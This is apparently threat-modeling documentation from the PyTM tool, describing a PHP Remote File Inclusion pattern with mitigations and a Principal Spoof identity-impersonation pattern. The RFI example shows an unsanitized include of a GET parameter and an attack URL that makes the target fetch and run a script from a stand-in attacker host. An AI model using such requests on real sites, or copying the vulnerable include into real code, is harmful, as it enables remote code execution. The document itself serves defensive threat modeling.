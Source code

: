 ### References

[https://capec.mitre.org/data/definitions/19.html](https://capec.mitre.org/data/definitions/19.html), [http://cwe.mitre.org/data/definitions/284.html](http://cwe.mitre.org/data/definitions/284.html)

### Source

This threat documentation came from the threat modeling tool [PyTM](https://github.com/izar/pytm).

## INP16 PHP Remote File Inclusion

In this pattern the adversary is able to load and execute arbitrary code remotely available from the application. This is usually accomplished through an insecurely configured PHP runtime environment and an improperly sanitized include or require call, which the user can then control to point to any web-accessible file. This allows adversaries to hijack the targeted application and force it to execute their own instructions.

### Mitigations

Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Only allow known files to be included \(whitelist\)Implementation: Make use of indirect references passed in URL parameters instead of file namesConfiguration: Ensure that remote scripts cannot be include in the include or require PHP directives

### Example

The adversary controls a PHP script on a server [http://attacker.com/rfi.txt](http://attacker.com/rfi.txt) The .txt extension is given so that the script doesn't get executed by the attacker.com server, and it will be downloaded as text. The target application is vulnerable to PHP remote file inclusion as following: include\($\_GET\['filename'\] . '.txt'\) The adversary creates an HTTP request that passes his own script in the include: [http://example.com/file.php?filename=http://attacker.com/rfi](http://example.com/file.php?filename=http://attacker.com/rfi) with the concatenation of the .txt prefix, the PHP runtime download the attack's script and the content of the script gets executed in the same context as the rest of the original script.

### References

[https://capec.mitre.org/data/definitions/193.html](https://capec.mitre.org/data/definitions/193.html), [http://cwe.mitre.org/data/definitions/98.html](http://cwe.mitre.org/data/definitions/98.html), [http://cwe.mitre.org/data/definitions/80.html](http://cwe.mitre.org/data/definitions/80.html), [http://cwe.mitre.org/data/definitions/714.html](http://cwe.mitre.org/data/definitions/714.html)

### Source

This threat documentation came from the threat modeling tool [PyTM](https://github.com/izar/pytm).

## AA02 Principal Spoof

A Principal Spoof is a form of Identity Spoofing where an adversary pretends to be some other person in an interaction. This is often accomplished by crafting a message \(either written, verbal, or visual\) that appears to come from a person other than the adversary. Phishing and Pharming attacks often attempt to do this so that their attempts to gather sensitive information appear to come from a legitimate source. A Principal Spoof does not use stolen or spoofed authentication credentials, instead relying on the appearance and content of the message to reflect identity. The possible outcomes of a Principal Spoof mirror those of Identity Spoofing. \(e.g., escalation of privilege and false attribution of data or activities\) Likewise, most techniques for Identity Spoofing \(crafting messages or intercepting and replaying or modifying messages\) can be used for a Principal Spoof attack. However, because a Principal Spoof is used to impersonate a person, social engineering can be both an attack technique \(using social techniques to generate evidence in support of a false identity\) as well as a possible outcome \(manipulating people's perceptions by making statements or performing actions under a target's name\).

